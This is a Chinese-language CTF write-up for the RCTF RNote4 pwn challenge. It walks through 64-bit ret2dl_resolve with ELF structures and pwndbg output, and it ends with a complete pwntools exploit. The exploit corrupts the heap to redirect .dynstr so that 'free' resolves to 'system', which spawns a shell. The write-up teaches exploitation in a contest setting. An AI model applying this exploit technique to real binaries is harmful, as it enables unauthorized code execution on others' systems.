 # RCTF RNote4
## Author: 文火
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>checksec一下，NO RELRD，NO PIE，利用dll_resolve来getshell很简单。如果没有学过如何利用dll_resolve的可以配合这两篇文章先学习一下：[看雪](https://bbs.pediy.com/thread-227034.htm)，[BruceFan](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>但鉴于这两篇文章都是讲32位下的，我这里再补充一下64位下的不同的地方：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>Elf64_Sym结构和Elf64_Rel结构如下：</font></br>

```C
typedef struct{
Elf64_Word st_name;
unsigned char st_info;
unsigned char st_other;
Elf64_Section st_shndx;
Elf64_Addr st_value;
Elf64_Xword st_size;
}Elf64_Sym;

typedef struct{
Elf64_Addr r_offset;
Elf64_Xword r_info
}Elf64_Rel;


//elf.h
typedef uint32_t Elf64_Word;
typedef uint64_t Elf64_Xword;
typedef uint16_t Elf64_Section;
typedef uint64_t Elf64_Addr;

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>根据elf.h的定义，64位下的Elf64_Sym大小应该是0x18,Elf64_Rel大小是0x10，还有一个比较坑的地方就是我用readelf -S看节区的时候是这样的：</font></br>

```C
 [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align

[ 5] .dynsym           DYNSYM           00000000004002c0  000002c0
       0000000000000138  0000000000000018   A       6     1     8

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这个.dynsym好像还有一个EntSize，所以在算Elf64_Sym指针的时候还要加一个0x18，不然算不对。接下来我还是手动演示一遍如何以dl_resolve的角度得到free字符串的地址吧。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>首先用readelf -r RNote4得到以下信息：</font></br>

```C
文火@文火:~/Desktop$ readelf -r RNote4

Relocation section '.rela.dyn' at offset 0x4d0 contains 2 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000601ff8  000800000006 R_X86_64_GLOB_DAT 0000000000000000 __gmon_start__ + 0
000000602080  000c00000005 R_X86_64_COPY     0000000000602080 stdin@GLIBC_2.2.5 + 0

Relocation section '.rela.plt' at offset 0x500 contains 10 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000602018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 free@GLIBC_2.2.5 + 0
000000602020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 __stack_chk_fail@GLIBC_2.4 + 0
000000602028  000300000007 R_X86_64_JUMP_SLO 0000000000000000 memset@GLIBC_2.2.5 + 0
000000602030  000400000007 R_X86_64_JUMP_SLO 0000000000000000 alarm@GLIBC_2.2.5 + 0
000000602038  000500000007 R_X86_64_JUMP_SLO 0000000000000000 read@GLIBC_2.2.5 + 0
000000602040  000600000007 R_X86_64_JUMP_SLO 0000000000000000 __libc_start_main@GLIBC_2.2.5 + 0
000000602048  000700000007 R_X86_64_JUMP_SLO 0000000000000000 calloc@GLIBC_2.2.5 + 0
000000602050  000900000007 R_X86_64_JUMP_SLO 0000000000000000 setvbuf@GLIBC_2.2.5 + 0
000000602058  000a00000007 R_X86_64_JUMP_SLO 0000000000000000 atoi@GLIBC_2.2.5 + 0
000000602060  000b00000007 R_X86_64_JUMP_SLO 0000000000000000 exit@GLIBC_2.2.5 + 0

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后直接x/10xg 0x602018来到rel指针处：</font></br>

```C
pwndbg> x/10xg 0x602018
0x602018:	0x0000000000400626	0x0000000000400636
0x602028:	0x00007ffff7b7f970	0x0000000000400656
0x602038:	0x0000000000400666	0x00007ffff7a2d740
0x602048:	0x0000000000400686	0x00007ffff7a7ce70
0x602058:	0x00000000004006a6	0x00000000004006b6

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>第一项的0x400626就是rel指针了，然后x/g 0x400626得到free的Elf64_Rel的结构信息：</font></br>

```C
pwndbg> x/g 0x400626
0x400626 <free@plt+6>:	0xffe0e90000000068

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>r_info>>8就是0了，然后从.dynsym处得到'free\0'的偏移地址，别忘了还有一个0x18:</font></br>

```C
pwndbg> x/g 0x4002c0+0x18
0x4002d8:	0x000000120000005f
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>再从.dynstr里用0x5f这个偏移就可以得到free函数名称字符串了，然后系统就会在动态链接库里根据这个字符串找到地址写入GOT表，我们在这题里就是要想办法让程序找free的时候欺骗它让它把system函数地址放到free里去，然后就可以getshell:</font></br>

```C
pwndbg> x/s 0x4003f8+0x5f
0x400457:	"free"

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以我们首先用readelf -d RNote4和x/20xg 0x601e28(.dynmic的地址)找到.dynstr的地址，然后先把.dynstr的地址修改为我们自己的地址，然后伪造一个字符串表，写上'system\0'，然后就可以欺骗了，最终利用脚本如下：</font></br>

Exploit脚本
========

```python
from pwn import *

DEBUG = 1

if DEBUG == 1:
  s=process('./RNote4')
  context(log_level='debug')
  gdb.attach(s)
else:
  s = remote('rnote4.2018.teamrois.cn',6767)

def alloc(size,data):
        s.send(p8(1))
        s.send(p8(size))
        s.send(data)

def edit(idx,size,data):
        s.send(p8(2))
        s.send(p8(idx))
        s.send(p8(size))
        s.send(data)

def free(idx):
        s.send(p8(3))
        s.send(p8(idx))

alloc(0x98,'A' * 0x98)
alloc(0x98,'A' * 0x98)
edit(0,0xb0,'B' * 0x98 + p64(0x21) + p64(0x98) + p64(0x601eb0))
edit(1,0x8,p64(0x602200))

edit(0,0xb0,'B' * 0x98 + p64(0x21) + p64(0x98) + p64(0x602200))
payload = 'A' * 0x5f + 'system\x00'
edit(1,len(payload),payload)

edit(0,0x8,'/bin/sh\x00')
free(0)

```
